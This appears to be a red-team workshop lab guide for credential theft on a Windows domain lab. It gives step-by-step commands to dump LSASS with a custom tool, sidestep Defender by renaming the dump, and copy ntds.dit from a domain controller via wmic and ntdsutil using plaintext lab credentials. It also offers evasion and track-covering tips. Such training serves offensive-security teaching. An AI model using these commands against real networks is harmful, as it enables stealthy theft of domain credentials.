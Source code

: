 # Advanced Credential Grabbing

Mimikatz is very burned, but you can still use its functionality on your attacker device where you don't have to worry about detections.  No reason the re-invent the wheel here, but custom tooling is required to get around the standard detections built in to most EDRS.

If you are looking to understand what part of various malware or attacker tools is being detected you can use defender check.

This tool will leverage the current database of defender and identify the area of a binary or file that is triggering a given alert.  This only works for static detections, not for heuristic or behavioral detections.

> **OPSEC NOTES**:
> - This can be ran remotely
> - You could have this feed out to a listenting IP/Port
> - Can be ran as an injected dll in another service.
> - The dump file itself is signatured by defender, much less the tools that generate it


## Custom LSASS Dump

> Turning defender off, can either be difficult, or not guarunteed to stay that way due to domain policies, or even other EDR implementations. So what to do?

> Even using AMSI bypasses can be concerning these days due to the frequency at which the signature are updated even for the bypasses. 

> More advanced actors are using custom tooling.  There are two considerations.  Executables can be executed in memory, but then the process is not directly tied to an executable. So you can inject into another process that is already running, which is really the way to go.

> Other options are to bring your own executable, or use signed executables already on the box to execute DLL files through sideloading to do your bidding.

Some examples of these techniques are what we will cover here and in the other adanced modules.

1. From the Lighteater (Attacker Box), RDP into the TWORIVERS (client) with the local administrator account.  

    > `TWORIVERS\Administrator:Summertimeishere@2023!`

2. Ensure windows defender is turned back on: `Set-MpPreference -DisableRealtimeMonitoring 0`
2. Open an Administrative powershell terminal.
3. Change directory: `cd c:\Users\Public\Desktop\LAB_FILES\assets`
4. Expand the archive for mimikatz again.
`expand-archive mimikatz_trunk.zip`

    > Note: https://github.com/matterpreter/DefenderCheck

5. Unzip the custom-procdump folder.
`expand-archive .\custom-procdump.zip`
5. CD into the "custom-procdump" folder.
6. Execute the nimprocdump.exe program. 
    ```powershell
    .\nimprocdump.exe
    ```
    ![Proc Dump Output](./nimprocdump.png)

> This will find the process with lsass, and dump it into a file.  Important not to add this kind of info into a command line while you have commandline process auditing on. Which is why you build the options into the executable, and then additional information like PIDs are logged as arguments, which can later be used for detections.

This is detected and the proc.dump file is deleted.  Oh no!

![Proc Dump Alert](./nimprocdump-alert.png)

> Notice it is not deleting the .exe and the alert is actually focused on that processes dump the proc.dump file.  So likely the alert is focused on the file itselt.

7. This time, lets simply rename the lsass.dump file.  
    ```powershell
    .\nimprocdump.exe; rename-item c:\proc.dump c:\not.dump
    ```

- There are still alerts but the lsass.dump file is not deleted.
- Notice what happens when we run with cmd.exe
- How easy is it to change the file?

Let's talk about what else we should do.

## Extra - Create Domain Save with WMIC
https://www.microsoft.com/en-us/security/blog/2023/05/24/volt-typhoon-targets-us-critical-infrastructure-with-living-off-the-land-techniques/

If you then end up with domain creds, one next step can be to grab the credentials from the entire domain of course! There are a number of ways that have been flagged to essentially steal the ntds.dit file from the Domain Controller.

> Notes: VSSADMIN gets caught because it's use is so commonly associated with the steps that happen before you are ransomed.  Other tools like ninja copy require extended interaction within a remote session of powershell and loading of an additional library, all super noisy.

If you can't tell, I really think using tools that already exist on the sytem, or are commonly used by admins helps stay under the radar, and it makes detections for automated tooling really difficult. One such way is to use the ntdsutil tool that is built into domain controllers to create backup media.  Further, using wmic is just really hard to catch.  This is being actively used in the volt typhoon campaigns.

1. Remote into the TWORIVERS (client ) 172.31.24.111 with the domain admin credentials: 

    > `wheel\ralthor : JustAn0therG!ng3r`

2. As this user, open a administrative command prompt. (Leave defender on.)

3. Run the following command to launch this remote process on the Domain Controller using an administrative command prompt. Not powershell, the escape characters are different.

    ```cmd
    wmic /node:tarvalaon.wheel.co /user:wheel\Administrator /password:12qwaszx!@QWASZX process call create "cmd.exe /c mkdir C:\Windows\temp"

    wmic /node: /user:wheel\Administrator /password:12qwaszx!@QWASZX process call create "cmd.exe /c ntdsutil \"ac i ntds\" ifm \"create full c:\Windows\temp\pew\" q q"
    ```

4. From you here you would retieve the file and unpack it to dump all the users and associated hashes without making really loud dcsync requests.

5. You can use the impackt secrets dump to dump hashes out fo the ntds.dit file.

[Secrets Dump Walk Through](https://airman604.medium.com/dumping-active-directory-password-hashes-deb9468d1633#:~:text=Using%20the%20two%20saved%20files%20%28NTDS.dit%20and%20SYSTEM,domain%20controller%29%3A%20secretsdump.py%20-system%20%3Cpath_to_system_hive%3E%20-ntds%20%3Cpath_to_ntds.dit%3E%20LOCAL)


> From here you should properly cover your tracks, but that is a different workshop.
